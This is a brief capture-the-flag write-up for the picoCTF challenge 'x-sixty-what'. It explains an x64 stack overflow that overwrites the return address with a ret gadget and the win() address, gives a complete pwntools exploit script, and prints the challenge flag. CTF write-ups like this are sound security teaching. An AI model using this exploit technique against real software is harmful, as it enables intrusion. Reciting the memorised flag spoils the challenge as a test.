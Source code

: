 # x-sixty-what

### Description
> Overflow x64 code

### Solution
It just causes an overflow and overwrites the return address with the `win()` address.
But, that's not enough to get the flag.
Put `ret` gadget in order to align an address.

```
from pwn import *

file = "./vuln"
host = "saturn.picoctf.net"
port = 52962
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

win = 0x00401236
ret = 0x0040101a

#io = remote(host, port)
io = process(file)
pld = b"A"*72
pld += p64(ret)
pld += p64(win)

io.sendlineafter("flag:", pld)

io.interactive()
#picoCTF{b1663r_15_b3773r_ec424efd}
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)
